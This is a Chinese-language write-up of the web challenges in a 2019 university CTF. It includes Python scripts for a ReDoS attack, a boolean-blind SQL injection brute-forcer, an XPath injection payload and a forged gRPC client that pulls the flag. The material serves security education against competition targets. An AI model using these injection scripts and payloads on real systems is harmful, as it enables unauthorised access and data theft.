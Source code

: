 # DozerCTF-2nd

### 2019金陵科技学院第二届网络安全竞赛web题解

### web1 果粉：

修改ua，包含iphone字符串即可。

### web2 reDos：

1. 通过.index.php.swp还原出代码。


2. 利用正则回溯机制导致的安全问题：

```
import requests
from io import BytesIO

data = {
  'greeting': BytesIO(b'Baby PHP' + b'a' * 1000000)
}

res = requests.post('http://120.27.3.220:10001/',data=data)
print(res.text)
```

### web3 babyshop:

简单的bool形盲注，没有任何过滤...

```
import requests
import string 

perm = string.ascii_uppercase + string.digits
url = "http://120.27.3.220:10002/trueorfalse.php"
itemname = ""
price = ""
counter = 99

while True:		
	counter +=1
	injectQuery = '\' or 1=1 and price = ' + str(counter) + '#'
	payload = {'search': injectQuery}
	html = requests.post(url, data=payload)
	print("Current counter: %s" % str(counter))
	if "This item exists" in html.content:
		while True:
			for i in perm:	
				injectQuery = '\' or name like \'' + itemname+i + '%\'' + ' and price = ' + str(counter) + '#'
				payload = {'search': injectQuery }
				html = requests.post(url, data=payload)
				print ("Currently checking: %s" % (itemname))
				if "This item exists" in html.content:
					itemname += i
					injectQuery = itemname + '\' and price = ' + str(counter) + '#'
					payload = {'search': injectQuery}
					html = requests.post(url, data=payload)
					if "This item exists" in html.content:
						print("Name of item: %s" % itemname)
						print ("Price of item: %s" % counter)
						exit()
```

### web4 bruteforce：

提示找字典，目录扫一波，发现：admin.php

cookie里base64解码发现：

$query="user/username[@name='".$user."']";

得知存在xpath注入，猜测参数为user

admin.php?user=%27]|//*|zzz[%27 

整理得到用户名字典

当爆破用户名成功回显为：ideal name

当骰子显示4个100点回显为:ideal status

在回显最长的两个包里有....

在用户名正确的情况下多次请求接口，当骰子达到4个100点即可得到flag。

### web5 接口测试：

本题开发知识较多，主页提示restful，了解的话应该可以想到restful的设计风格，如put-提交，post-更新，delete-删除...然后就换个请求方式得到源码。

源码里我们可以发现是flask框架，同时调用了grpc接口，实现了一些功能，/flag下的代码被注释掉了，但我们可以伪造客户端直接访问rpc接口获取flag.


首先根据客户端的代码推测处.proto文件

```
syntax = "proto3";

service ctf {
    rpc get_flag(CommonRequest) returns(GetFlagReply) {}
}

message CommonRequest {
}

message TestReply {
	string flag=1;
}
```

编译proto文件：

```
python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. ./rpc.proto

生成 rpc_pb2.py 和 rpc_pb2_grpc.py文件
```


编写客户端程序：

```
import grpc
import rpc_pb2
import rpc_pb2_grpc

channel = grpc.insecure_channel("120.27.3.220:10004")
stub = rpc_pb2_grpc.ctfStub(channel)
response = stub.get_flag(rpc_pb2.CommonRequest())
print response
```

其实grpc支持多种语言，rpc框架存在的目的之一就是为了多种语言之间交互数据。客户端可以是任意一种语言编写。

grpc框架相关可以参考：

http://doc.oschina.net/grpc?t=57966